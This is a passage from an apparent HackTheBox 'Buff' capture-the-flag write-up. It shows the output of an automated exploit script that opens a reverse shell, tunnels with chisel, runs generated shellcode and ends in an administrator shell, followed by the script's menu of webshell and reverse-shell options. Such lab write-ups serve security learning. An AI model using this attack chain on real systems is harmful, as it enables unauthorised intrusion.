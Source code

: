    ```python
   > 3
   ```

   First, we have to selection our action (in this case a reverse-shell as admin.)

   ```python
   [*] Getting reverse-shell as admin... This may take up to a minute!
   [*] Setting up tunnel this may take a couple of minutes...
   [*] Getting user-shell...
   [*] Executing reverse-shell payload...
   [+] Trying to bind to 10.10.14.25 on port 9273: Done
   [+] Waiting for connections on 10.10.14.25:9273: Got connection from 10.10.10.198 on port 49675
   [*] Starting SMB-Server...
   [*] Uploading chisel...
   [*] Starting chisel server...
   2020/11/20 01:13:54 server: Reverse tunnelling enabled
   2020/11/20 01:13:54 server: Fingerprint b4:1b:fa:45:75:f3:e7:78:cc:18:b3:bc:af:50:f9:bf
   2020/11/20 01:13:54 server: Listening on 0.0.0.0:8000...
   [*] Forwarding port back...
   [*] Generating shellcode...
   [+] Trying to bind to 10.10.14.25 on port 9060: Done
   [+] Waiting for connections on 10.10.14.25:9060: Got connection from 10.10.10.198 on port 49681
   [*] Switching to interactive mode
   (c) 2018 Microsoft Corporation. All rights reserved.
   
   C:\Windows\system32>$ whoami
   buff\administrator
   ```

   We successfully get a shell as admin.



We can also use the script to easily print the flags for us:

```python
root@darkness:~# python3 buff.py 

  ____         __  __   _____                                      
 |  _ \       / _|/ _| |  __ \                                     
 | |_) |_   _| |_| |_  | |__) |_      ___ __                       
 |  _ <| | | |  _|  _| |  ___/\ \ /\ / / '_ \                      
 | |_) | |_| | | | |   | |     \ V  V /| | | |                     
 |____/ \__,_|_| |_|   |_|      \_/\_/ |_| |_|                     
  ____           _____ _           ___         __        ____      
 |  _ \         / ____| |         / _ \       / /       / __ \     
 | |_) |_   _  | |    | |__  _ __| | | |_  __/ /_   ___| |  | |___ 
 |  _ <| | | | | |    | '_ \| '__| | | \ \/ / '_ \ / _ \ |  | / __|
 | |_) | |_| | | |____| | | | |  | |_| |>  <| (_) |  __/ |__| \__ \
 |____/ \__, |  \_____|_| |_|_|   \___//_/\_\\___/ \___|\____/|___/
         __/ |                                                     
        |___/                                                      

 Twitter:    https://twitter.com/Chr0x6eOs
 Github:     https://github.com/Chr0x6eOs
 HackTheBox: https://www.hackthebox.eu/home/users/profile/134448
 
 _________________________________________________________________________
 

    [1] - Webshell
    [2] - Reverse-Shell as user (Buff\Shaun)
    [3] - Reverse-shell as admin (Buff\Administrator)
    [4] - Print flags
    [5] - Exit

    
```